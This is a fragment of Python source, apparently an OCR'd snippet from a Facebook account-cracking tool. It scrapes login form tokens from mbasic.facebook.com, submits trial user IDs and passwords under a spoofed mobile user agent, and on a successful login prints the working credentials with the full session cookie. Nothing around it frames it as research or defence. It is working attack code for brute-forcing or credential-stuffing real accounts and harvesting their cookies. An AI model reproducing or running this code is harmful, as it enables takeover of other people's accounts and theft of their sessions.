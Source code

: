             "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),

            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),

            "try_number":"0",

            "unrecognized_tries":"0",

            "email":uid,

            "pass":ps,

            "login":"Log In"}

            header_freefb = {'authority': 'mbasic.facebook.com',

            'method':'GET',

            'path':'/login/device-based/regular/login/?refsrc=deprecated&lwv=101&ref=dbl',

            'scheme':'https',

            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',

            'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',

            'cache-control': 'max-age=0',

            'content-type': 'application/x-www-form-urlencoded',

            'origin': 'https://mbasic.facebook.com',

            'referer': 'https://mbasic.facebook.com/login/?next&ref=dbl&fl&login_from_aymh=1&refid=8',

            'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"',

            'sec-ch-ua-mobile': '?1',

            'sec-ch-ua-platform': '"Android"',

            'sec-fetch-dest': 'document',

            'sec-fetch-mode': 'navigate',

            'sec-fetch-site': 'same-origin',

            'sec-fetch-user': '?1',

            'upgrade-insecure-requests': '1',

            'user-agent': pro}

            lo = session.post('https://mbasic.facebook.com/login/device-based/regular/login/?refsrc=deprecated&lwv=101',data=log_data,headers=header_freefb).text

            log_cookies=session.cookies.get_dict().keys()

            if 'c_user' in log_cookies:

                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                cid = coki[7:22]

                print(f"\033[1;92m[INNOCENT-OK] {uid}|{ps} \nCookie : {coki}")
